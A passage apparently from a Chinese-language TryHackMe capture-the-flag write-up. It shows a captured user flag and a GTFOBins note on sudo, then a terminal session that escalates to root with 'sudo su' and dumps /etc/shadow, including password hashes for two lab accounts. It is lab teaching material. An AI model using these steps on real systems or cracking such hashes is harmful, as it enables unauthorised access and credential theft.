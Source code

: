 ```
-rw-r--r-- 1 root   root    183 Jul 28  2020 .wget-hsts
alison@ubuntu:~$ cat user.txt 
THM{postgresql_fa1l_conf1gurat1on}
```

[Sudo](https://gtfobins.github.io/gtfobins/su/)

### su
切换用户

#### sudo
超级用户执行

如果该二进制文件被sudo允许以超级用户身份运行，它不会降低提升的权限，可能被用于访问文件系统，升级或维持特权访问。

```
alison@ubuntu:~$ sudo su
[sudo] password for alison: 
root@ubuntu:/home/alison# whoami
root
root@ubuntu:/home/alison# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/alison# cat /etc/shadow
root:!:18471:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18471:0:99999:7:::
uuidd:*:18471:0:99999:7:::
alison:$6$w0kXFSdk$UbokwwU0oMyAD6Ar12b5zLfXb1yTDJAUtdAIL7XmnQaRXCvO9dqic6oG5TdVDoGxaL6XjM6uxldZ1MmPI1LIh0:18472:0:99999:7:::
sshd:*:18471:0:99999:7:::
postgres:*:18472:0:99999:7:::
dark:$6$kaUxujtE$PsmWfi8X.4YCFygPwjDgzLwqxZX4OCEF4nWoG4o4LsLyvDsWiSnUvQCKqhjNqiKQiZ4wgNewvM/zgbjahb2ci1:18472:0:99999:7:::
```
